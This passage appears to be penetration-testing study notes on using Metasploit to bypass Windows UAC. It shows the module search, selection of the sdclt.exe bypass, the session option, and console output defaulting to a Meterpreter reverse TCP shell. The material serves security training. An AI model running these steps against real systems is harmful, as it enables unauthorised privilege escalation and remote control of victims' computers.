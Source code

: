 Now let's **search** for UAC bypass modules
```
search UAC
```
+ Example output:
```
Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
-   ----                                                   ---------------  ----       -----  -----------
   0   post/windows/manage/sticky_keys                                         normal     No     Sticky Keys Persistance Module
   1   exploit/windows/local/cve_2022_26904_superprofile      2022-03-17       excellent  Yes    User Profile Arbitrary Junction Creation Local Privilege Elevation
   2   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   3   exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
   ...
   11  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   12  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   ...
```

The search yields quite a few results
+ One very effective UAC bypass on modern Windows systems is _exploit/windows/local/bypassuac_sdclt_, which targets the Microsoft binary **sdclt.exe**
+ This binary can be abused to bypass UAC by spawning a process with integrity level _High_
+ Usage:
```
use exploit/windows/local/bypassuac_sdclt
```

To use the module, we'll activate it and set the _SESSION_ and _LHOST_ options as shown in the following listing
+ Setting the _SESSION_ for post-exploitation modules allows us to directly execute the exploit on the active session
+ Then, we can enter **run** to launch the module
+ Example:
```
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION                        yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
```